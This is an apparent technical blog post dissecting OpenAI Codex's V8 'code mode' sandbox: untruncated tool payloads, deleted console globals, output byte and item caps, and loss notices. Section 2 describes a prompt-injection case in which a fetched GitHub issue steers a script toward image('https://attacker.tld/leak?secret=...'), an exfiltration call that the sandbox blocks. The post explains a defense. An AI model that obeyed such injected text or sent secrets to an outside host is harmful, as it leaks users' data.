

2. Bypassing the LLM Context Window: Processing Untruncated MCP Payloads Inside V8 Heap Memory
Suppose an MCP tool returns a 4 MB JSON array of 2,500 Sentry error events and you want the three stack traces matching a specific commit SHA. Under classical JSON tool calling, you face a lose-lose dilemma: either truncate the tool output at 10,000 tokens (silently dropping 96% of the array so the LLM misses the matching events!) or dump all 4 MB into the prompt (destroying latency and blowing the context window). OpenAI Codex breaks this dilemma by splitting tool execution dataflow from model context emission: nested tool calls inside V8 receive raw, untruncated JsonValue payloads via ToolOutput::code_mode_result(), globalThis.console is intentionally deleted so nothing leaks accidentally, and only explicit text() / image() / audio() emissions pass through a two-stage BoundedOutput collector.
1. Dual Tool Output Paths: to_response_item() vs. code_mode_result()
Every tool handler in codex-rs/core/src/tools/context.rs implements two distinct projection methods on the ToolOutput trait. Look side by side at what happens to an McpToolOutput (context.rs:201-258) and an ExecCommandToolOutput (context.rs:454-518) when invoked directly by the LLM versus when invoked via await tools.*(...) inside V8 (core/src/tools/code_mode/mod.rs:338-422):
// codex-rs/core/src/tools/context.rs (lines 201-210 & 228-258, condensed)
impl ToolOutput for McpToolOutput {
// 1. Direct LLM tool call -> formatted header + token-budget truncation!
fn to_response_item(&self, call_id: &str, _payload: &ToolPayload) -> ResponseInputItem {
let mut payload = self.result.as_function_call_output_payload();
// ... prepends "Wall time: X.XXXX seconds\nOutput:" ...
// History receives this budget in tokens. Code Mode keeps the raw result.
truncate_function_output_payload(
&mut payload,
with_serialization_allowance(self.truncation_policy),
estimate_audio_token_count,
);
ResponseInputItem::FunctionCallOutput { call_id: call_id.to_string(), output: payload }
}
// 2. Nested V8 Code Mode call -> RAW, untruncated CallToolResult JSON!
fn code_mode_result(&self, payload: &ToolPayload) -> JsonValue {
self.result.code_mode_result(payload)
}
}Look at that single-line comment on line 251: “History receives this budget in tokens. Code Mode keeps the raw result.” Similarly, ExecCommandToolOutput::code_mode_result (context.rs:493-518) returns structured fields (exit_code, wall_time_seconds, session_id, original_token_count, and self.raw_output.text.clone() untruncated unless the script explicitly passed max_output_tokens). And inside submit_nested_tool (code_mode/mod.rs:375-377), Codex enforces a hard non-reentrancy guard—if is_exec_tool_name(&tool_name) { Err("exec cannot invoke itself") }—preventing recursive V8 cell fork-bombs while allowing arbitrary fan-out via Promise.all([...]) across MCP and built-in tools.

core/src/tools/context.rs and code-mode-runtime: full multi-megabyte tool payloads enter V8 heap memory untruncated via code_mode_result(), while only deliberate text() / image() / audio() emissions pass through BoundedOutput and outer token rendering into the LLM prompt.2. Deleting globalThis.console & Blocking Remote Image Exfiltration
In almost every naive JavaScript sandbox for LLMs, stdout/console.log is captured into the tool response—and return values of the final expression are echoed automatically. Both choices backfire in production: models reflexively leave debugging console.log(rawResponse) calls or return a huge last expression, accidentally dumping megabytes back into their own context window!
Look at the very first four lines of install_globals in code-mode-runtime/src/runtime/globals.rs:19-24:
// codex-rs/code-mode-runtime/src/runtime/globals.rs (lines 19-24 & 43-51)
let global = scope.get_current_context().global(scope);
delete_global(scope, global, "console")?;
delete_global(scope, global, "Atomics")?;
delete_global(scope, global, "SharedArrayBuffer")?;
delete_global(scope, global, "WebAssembly")?;
// ... installs explicit output & control globals:
// text, image, audio, generatedImage, notify, store, load, yield_control, exitDeleting console forces 100% of model-visible output through explicit, typed emission helpers (text, image, audio, generatedImage, and mid-flight notify). And inspect how normalize_output_image (runtime/value.rs:47-109) hardens multimodal emissions against prompt-injection exfiltration:
- Zero Remote URLs (
REMOTE_IMAGE_URL_ERROR,lines 70-78): If prompt-injected text inside a fetched GitHub issue tricks the script into callingimage("https://attacker.tld/leak?secret=..."), Codex immediately throws a JSTypeError: “remote image URLs are not supported in tool outputs. Pass a base64 data URI instead.” Onlydata:URIs (or raw MCP{type: "image", data, mimeType}content blocks normalized intodata:{mimeType};base64,{data}atlines 132-165) are accepted! - Model-Aware
ImageDetail::OriginalSanitization (code_mode/mod.rs:279, 294): V8 preserves fullImageDetailmetadata (auto,low,high,original, including MCP_meta["codex/imageDetail"]), and Core’ssanitize_image_detail_itemsdowngradesOriginalright before history insertion if the active model’sModelInfodoes not support uncompressed original-detail vision inputs.
3. Inside BoundedOutput: Four Caps & $O(1)$ PartialText Eviction
Even before Core applies the model’s token limit (e.g., 10,000 tokens), the out-of-process V8 host cannot buffer unbounded output in RAM if a script runs for (let i = 0; i < 1e7; i++) text("row " + i). Negotiated via BOUNDED_OUTPUT_CAPABILITY = "bounded-output-v1" (code-mode-protocol/src/host/mod.rs:17-28), BoundedOutput (code-mode-runtime/src/output/output_collection.rs) enforces four independent per-observation budgets:
| Budget Constant | Allowance | Retention & Eviction Policy |
|---|---|---|
BOUNDED_OUTPUT_MAX_BYTES | 1 MiB text | OpenOutput while $\le 1\text{ MiB}$; transitions to HeadTailOutput (512 KiB fixed head + 512 KiB rolling tail) |
BOUNDED_OUTPUT_MAX_IMAGE_BYTES | 8 MiB inline data: | Whole-item admission in source order; item-count eviction of older media frees budget for newer media (lines 413-419, 467-478)! |
BOUNDED_OUTPUT_MAX_AUDIO_BYTES | 62 MiB audio data: | Counts full data-URI string including prefix + base64; whole-item source-order admission |
MAX_OUTPUT_ITEMS | 32,768 logical items | Guards against millions of 1-byte text("a") calls; locks 16,384 head items + rolling tail |
Three low-level algorithmic gems inside output_collection.rs prevent quadratic $O(N^2)$ CPU traps under adversarial write patterns:
- 4 KiB Chunked
PartialTextDeques (lines 20, 30-40, 344-361): Suppose the rolling tail holds a 500 KiB string and the script appends 100 bytes at a time, 5,000 times. Shifting a contiguousStringleft on each write would copy $500\text{ KiB} \times 5{,}000 \approx 2.5\text{ GB}$! Instead,RetainedItem::text_suffixslices surviving suffixes intoTEXT_BLOCK_BYTES = 4096chunks inside aVecDeque<String>with a singlefront_offset: usizeon block0. Subsequent evictions merely incrementfront_offsetalong UTF-8 boundaries (ceil_char_boundary) andpop_front()exhausted 4 KiB blocks in $O(1)$ time! - Batched Gap Compaction (
lines 379-394): AdjacentRetainedItem::Gapmarkers represent one logical omission, yet if retained images bracket many evicted text items, sweeping the tail deque on every tiny write would again go quadratic. Codex tracksadjacent_gapsand only compacts contiguous gaps onceadjacent_gaps >= MAX_OUTPUT_ITEMS.div_ceil(8)($4{,}096$ slots)—guaranteeing every linear sweep reclaims at least 4,096 slots ($O(1)$ amortized per write). - Zero-Copy Pre-Slicing on Huge Exceptions (
push_error,lines 440-464): If a script throws anErrorcontaining a 40 MB payload dump,push_errorrefuses to even allocateformat!("Script error:\n{error}")! It computeshead_end($\le 1\text{ MiB}$) andtail_startoutward on UTF-8 char boundaries first, formats at most $2\text{ MiB}$, and adds the skipped middle byte count directly onto the tail’sOutputOmission.
4. Observation-Boundary Rendering & Reverse-Spliced Loss Notices
When a cell yields, finishes, or faults, render_output (output_render.rs:33-166) drains CollectedOutput { items, gaps } and applies the outer token budget (DEFAULT_MAX_OUTPUT_TOKENS_PER_EXEC_CALL or // @exec: {"max_output_tokens": ...}) via formatted_output_at_token_boundaries / mixed_output_at_token_boundaries—which updates every collector OutputBoundary { item_index, text_offset } in lockstep as token truncation trims the text!
Finally, insert_loss_notices (lines 85-166) reports collector omissions without blowing up the prompt:
- If there are $\le 4$ distinct omission positions (
MAX_POSITIONED_NOTICES = 4), Codex splices exact inline markers—[Code Mode session output limit reached: omitted X text bytes; discarded Y text segments, Z images, W audio items]—draining from the back of the vector to the front (lines 139-165) sotext.split_off(offset)never shifts earlier item indices! - If losses are scattered across $\ge 5$ positions (e.g., alternating kept images and dropped audio clips), Codex collapses them into one observation-wide notice (
"across this observation, ..."), while deliberately placingsummary_positioninside any split text item (lines 114-118) so two severed fragments of a sentence never concatenate silently into a false statement!
5. Questions worth answering
output_collection.rs:263-267, 315-330)?Because HeadTailOutput::from_open can be triggered either by exceeding 1 MiB of text or by exceeding 32,768 logical items (for example, 32,768 tiny strings plus one 700 KiB JSON dump whose total is still under 1 MiB). Allowing that final head item to borrow unused tail bytes preserves the entire observation with zero data loss when total text $\le 1\text{ MiB}$; if subsequent writes push content_bytes > 1 MiB, trim() pops that single borrowed head item and splits it cleanly at the 512 KiB mark!
BOUNDED_OUTPUT_CAPABILITY (Server vs. Client truncation in code_mode/mod.rs:296-303) across the stdio host handshake?So Core and an out-of-process codex-code-mode-host binary never double-truncate the same output! When the host advertises bounded-output-v1, output_truncation is set to Server: the host performs both 1 MiB byte collection and outer token rendering before framing the IPC response (bounding IPC frame size too!), and Core skips truncate_code_mode_result.